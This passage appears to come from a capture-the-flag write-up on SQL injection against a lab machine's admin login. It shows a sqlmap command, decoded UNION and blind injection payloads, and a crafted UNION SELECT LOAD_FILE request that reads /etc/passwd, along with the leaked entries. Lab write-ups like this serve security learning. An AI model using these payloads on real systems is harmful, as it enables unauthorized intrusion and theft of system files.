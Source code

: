 The attacks from SqlMap fail to load the schema or dump any data.

May-be we can go further and adapt its payloads. First catch the request from
SqlMap in Burp Suite:

```bash
sqlmap -v 2 -u http://10.10.11.101/administrative \
    --dbms mysql --technique=U --answer="redirect=N" --data "uname=&password=" \
    --level 5 --risk 3 --time-sec 2 --batch --proxy=127.0.0.1:8080
```

```javascript
decodeURIComponent('%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7170627171%2C%28CASE%20WHEN%20%280x57%3DUPPER%28MID%28%40%40version_compile_os%2C1%2C1%29%29%29%20THEN%201%20ELSE%200%20END%29%2C0x71706a6b71%29%2CNULL%2CNULL%2CNULL%2CNULL--%20-')
// "' UNION ALL SELECT NULL,CONCAT(0x7170627171,(CASE WHEN (0x57=UPPER(MID(@@version_compile_os,1,1))) THEN 1 ELSE 0 END),0x71706a6b71),NULL,NULL,NULL,NULL-- -"
decodeURIComponent('-8529%27%20OR%20ORD%28MID%28%28IFNULL%28CAST%28HEX%28LOAD_FILE%280x2f6574632f706173737764%29%29%20AS%20NCHAR%29%2C0x20%29%29%2C1%2C1%29%29%3E52--%20KixB')
// "-8529' OR ORD(MID((IFNULL(CAST(HEX(LOAD_FILE(0x2f6574632f706173737764)) AS NCHAR),0x20)),1,1))>52-- KixB"
hex2a('2f6574632f706173737764')
// "/etc/passwd"
```

Then combine both query into a new union statement, because it's faster than
the boolean blind payload. Starting simple:

```sql
UNION ALL SELECT NULL,LOAD_FILE(0x2f6574632f706173737764),NULL,NULL,NULL,NULL-- -
```

The expected result is the file `/etc/passwd`.

### Sending the SQLi payload

Back in Burp Suite, we capture a random request to the admin page and send it
to the repeater. Then edit the data to match:

```
uname=%27%20UNION%20ALL%20SELECT%20NULL%2CLOAD_FILE(0x2f6574632f706173737764)%2CNULL%2CNULL%2CNULL%2CNULL--%20-&passwd=
```

It works! The most interesting entries of `/etc/passwd` are:

```
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
kyle:x:1000:1000:Kyle Travis:/home/kyle:/bin/bash
filter:x:997:997:Postfix Filters:/var/spool/filter:/bin/sh
john:x:1001:1001:,,,:/home/john:/bin/bash
```

### Extracting the source code

#### Apache configuration
